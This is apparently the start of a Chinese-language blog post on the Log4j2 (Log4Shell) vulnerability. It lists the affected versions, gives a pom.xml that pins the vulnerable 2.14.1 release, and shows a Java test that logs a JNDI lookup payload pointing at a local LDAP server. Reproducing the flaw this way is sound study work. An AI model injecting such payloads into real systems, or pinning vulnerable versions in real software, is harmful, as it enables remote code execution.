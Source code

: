 ```yaml
---
title: "log4j2 漏洞"
onlyTitle: true
date: 2025-3-6 20:58:15
categories:
- java
- 框架漏洞
tags:
- log4j
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B8135.jpg
---
```




# log4j漏洞

 Log4j  漏洞在安全圈引起了轩然大波，可以说是核弹级别的漏洞，无论是渗透、研发、安服、研究，所有人都在学习和复现这个漏洞，由于其覆盖面广，引用次数庞大，直接成为可以与永恒之蓝齐名的顶级可利用漏洞，官方 CVSS 评分更是直接顶到 10.0，国内有厂商将其命名为“毒日志”，国外将其命名为 Log4Shell。

## 漏洞影响版本

Apache Log4j 2.x<=2.14.1

pom.xml：

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency>
```

其他什么都不需要

跑一个漏洞test：

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4jtest {
    private static final Logger logger = LogManager.getLogger(log4jtest.class);
    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:8085/qlAnftyN}");
    }
}
```
